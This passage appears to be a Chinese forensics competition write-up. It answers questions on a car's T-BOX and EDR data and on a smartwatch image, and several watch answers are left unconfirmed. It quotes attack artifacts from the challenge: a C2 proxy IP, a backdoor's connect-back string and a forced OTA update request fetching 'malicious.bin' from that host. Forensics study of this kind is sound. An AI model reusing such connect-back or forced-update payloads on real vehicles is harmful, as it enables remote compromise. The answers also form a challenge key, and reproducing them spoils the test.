CRASH_DUMP: DOOR_STATE=UNLOCKED, WINDOWS=UP, WIPERS=OFF, LIGHTS=HIGH_BEAM
```

结论：

```text
HIGH_BEAM
```

### 待归题号：T-BOX 被覆写远程代理 IP

检材来源：`K:\黄志远\car.E01`

证据来源：`黄志远car\exports\keyfiles\tbox\system.conf.enc`

方法：识别 `TBX_ENC` 版本头后，对后续内容执行 XOR `0x5a`。

关键摘录：

```text
C2_PROXY=45.33.22.11:8080
```

结论：

```text
45.33.22.11
```

### 待归题号：T-BOX 后门 ELF 绝对路径

检材来源：`K:\黄志远\car.E01`

证据来源：`黄志远car\exports\fls-recursive.txt`、`exports\inode_104.bin`

方法：枚举 ext4 文件系统并用 `icat` 提取 inode `104`。

关键摘录：

```text
r/r 104: data/local/tmp/syslogd_update
Connect back to 45.33.22.11
```

结论：

```text
/data/local/tmp/syslogd_update
```

### 待归题号：EDR 采样点 0 纵向车速

检材来源：`K:\黄志远\car.E01`

证据来源：`黄志远car\exports\keyfiles\edr\event_00042_c.bin`

方法：解析 `EDR_STARWAY_V2` 采样块，读取采样点 0 的纵向速度字节。

关键摘录：

```text
valid longitudinal speed sequence = 85, 85, 85, 100, 115, 130, 145, 160, 175, 185, 180
sampling point 0 = 180
```

结论：

```text
180
```

### 待归题号：碰撞前 5 秒纵向车速

检材来源：`K:\黄志远\car.E01`

证据来源：`黄志远car\exports\keyfiles\edr\event_00042_c.bin`

方法：解析 `EDR_STARWAY_V2` 采样块，首个有效纵向速度字节 `0x55` 对应 `85 km/h`。

关键摘录：

```text
first valid longitudinal speed byte at offset 0x48 is 0x55 = 85 km/h
```

结论：

```text
85
```

### 题目27：伪装系统日志服务的进程名

题目：黑客在其利用漏洞上传的 ELF 脚本中，使用了哪个特定的进程名称来伪装成系统日志服务？

检材来源：`K:\黄志远\car.E01`

证据来源：`黄志远car\exports\inode_43.bin`、`inode_81.bin`、`inode_104.bin`、`exports\keyfiles\tbox\telemetry_20251215.pcap`

方法：确认上传 ELF 与 C2 链条后，在碎片文件中搜索 `SOLO`、`DEad`、`LoGD`、`LIVe` 并按“系统日志服务”语义重组。

关键摘录：

```text
inode_81.bin: SOLO at 0x50cad2, DEad at 0x6b9b68
inode_43.bin: LoGD at 0x57e1e0, LIVe at 0x9f552a
HTTP_GET: /api/v1/ota/force_update?pkg=http://45.33.22.11/malicious.bin
```

推理：`LoGD` 对应 `logd` 日志守护进程语义，结合 `SOLO`、`DEad`、`LIVe` 四组碎片，可重建出 `deadlive_solologd`。该题当前为高置信度碎片重组，后续若修复 ELF 内直接字符串可再补强。

结论：

```text
deadlive_solologd
```

## 四、物联网取证

### 题目28：手表型号

题目：分析林小婉/林小碗手表，手表型号是？

检材来源：`K:\林小婉\林小婉手表.bin`

证据来源：`林小婉手表\analysis-notes.md`、原始镜像头部与系统属性区

方法：读取镜像头部并扫描系统属性字符串。

关键摘录：

```text
HWOS
HUAWEI WATCH GT 5
ro.product.model=HUAWEI WATCH GT 5
4.0.0.128(C00E128R2P8)
persist.sys.timezone=Asia/Shanghai
```

证据截图：



结论：

```text
HUAWEI WATCH GT 5
```

### 题目29：实际年龄

题目：分析林小婉/林小碗手表，发现其实际年龄是多少岁？

检材来源：`K:\林小婉\林小婉手表.bin`，交叉证据来自手机隐藏数据。

证据来源：`林小婉手机\exports\vault_data_decrypted.json`

方法：从身份证号提取出生日期 `1988-05-12`，按本次分析日期 `2026-05-10` 计算周岁。

关键摘录：

```text
"username": "440305198805121234"
birth 1988-05-12 ref 2026-05-10 age 37
```

结论：

```text
37
```

说明：手表 `DATA+0x100000` 的 16KB 数据块已经定位，但尚未直解出年龄明文字段；本题目前按手机侧身份信息交叉推断，后续若解开手表数据块应补充直证。

### 题目30：经常外出跑步主要运动区域

检材来源：`K:\林小婉\林小婉手表.bin`

证据来源：`林小婉手表\exports\data_nonzero_0x100000.bin`、`林小婉手表\analysis-notes.md`

方法：对镜像做签名和分块扫描，定位 DATA 分区内非零区域，导出 `DATA+0x100000` 的 16KB 数据块；按 `KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32` 提示切分校验，并尝试用关联 APK 的 AES-GCM、ChaCha20-Poly1305、PBKDF2/静态密钥路线验证。

关键摘录：

```text
DATA base: 0x1f8000000
DATA+0x100000: exports\data_nonzero_0x100000.bin, len=0x4000
DATA+0x5000000: KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32
active len 0x3482 crc32 0xbdf6bae1
seg1 crc32 0x84f33e15
seg2 crc32 0x632b0bf5
seg3 crc32 0x07265010
APK AES-GCM/ChaCha20-Poly1305 认证解密命中数：0
```

证据截图：





当前结论：暂未确认。

说明：尚未从手表关键数据块解出行政区字段；不写猜测答案。

### 题目31：平均跑步几公里

检材来源：`K:\林小婉\林小婉手表.bin`

证据来源：`林小婉手表\exports\data_nonzero_0x100000.bin`、`林小婉手表\analysis-notes.md`

方法：对镜像做签名和分块扫描，定位 DATA 分区内非零区域，导出 `DATA+0x100000` 的 16KB 数据块；按 `KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32` 提示切分校验，并尝试用关联 APK 的 AES-GCM、ChaCha20-Poly1305、PBKDF2/静态密钥路线验证。

关键摘录：

```text
DATA base: 0x1f8000000
DATA+0x100000: exports\data_nonzero_0x100000.bin, len=0x4000
DATA+0x5000000: KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32
active len 0x3482 crc32 0xbdf6bae1
seg1 crc32 0x84f33e15
seg2 crc32 0x632b0bf5
seg3 crc32 0x07265010
APK AES-GCM/ChaCha20-Poly1305 认证解密命中数：0
```

证据截图：


当前结论：暂未确认。

说明：尚未解出跑步记录明文或结构化里程字段。

### 题目32：高压力天数

检材来源：`K:\林小婉\林小婉手表.bin`

证据来源：`林小婉手表\exports\data_nonzero_0x100000.bin`、`林小婉手表\analysis-notes.md`

方法：对镜像做签名和分块扫描，定位 DATA 分区内非零区域，导出 `DATA+0x100000` 的 16KB 数据块；按 `KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32` 提示切分校验，并尝试用关联 APK 的 AES-GCM、ChaCha20-Poly1305、PBKDF2/静态密钥路线验证。

关键摘录：

```text
DATA base: 0x1f8000000
DATA+0x100000: exports\data_nonzero_0x100000.bin, len=0x4000
DATA+0x5000000: KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32
active len 0x3482 crc32 0xbdf6bae1
seg1 crc32 0x84f33e15
seg2 crc32 0x632b0bf5
seg3 crc32 0x07265010
APK AES-GCM/ChaCha20-Poly1305 认证解密命中数：0
```

证据截图：


当前结论：暂未确认。

说明：尚未解出压力日统计或原始压力序列。

### 题目33：平均心率

检材来源：`K:\林小婉\林小婉手表.bin`

证据来源：`林小婉手表\exports\data_nonzero_0x100000.bin`、`林小婉手表\analysis-notes.md`

方法：对镜像做签名和分块扫描，定位 DATA 分区内非零区域，导出 `DATA+0x100000` 的 16KB 数据块；按 `KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32` 提示切分校验，并尝试用关联 APK 的 AES-GCM、ChaCha20-Poly1305、PBKDF2/静态密钥路线验证。

关键摘录：

```text
DATA base: 0x1f8000000
DATA+0x100000: exports\data_nonzero_0x100000.bin, len=0x4000
DATA+0x5000000: KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32
active len 0x3482 crc32 0xbdf6bae1
seg1 crc32 0x84f33e15
seg2 crc32 0x632b0bf5
seg3 crc32 0x07265010
APK AES-GCM/ChaCha20-Poly1305 认证解密命中数：0
```

证据截图：


当前结论：暂未确认。

说明：尚未解出心率序列或平均值字段。

### 题目34：2024-12-25 运动地点/类型

检材来源：`K:\林小婉\林小婉手表.bin`

证据来源：`林小婉手表\exports\data_nonzero_0x100000.bin`、`林小婉手表\analysis-notes.md`

方法：对镜像做签名和分块扫描，定位 DATA 分区内非零区域，导出 `DATA+0x100000` 的 16KB 数据块；按 `KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32` 提示切分校验，并尝试用关联 APK 的 AES-GCM、ChaCha20-Poly1305、PBKDF2/静态密钥路线验证。

关键摘录：

```text
DATA base: 0x1f8000000
DATA+0x100000: exports\data_nonzero_0x100000.bin, len=0x4000
DATA+0x5000000: KEY_SEGMENTS: 0x30, 0x1005, 0x2008, CHECKSUM: CRC32
active len 0x3482 crc32 0xbdf6bae1
seg1 crc32 0x84f33e15
seg2 crc32 0x632b0bf5
seg3 crc32 0x07265010
APK AES-GCM/ChaCha20-Poly1305 认证解密命中数：0
```

证据截图：


当前结论：暂未确认。

说明：尚未解出该日期运动地点、运动类型或室内外字段。

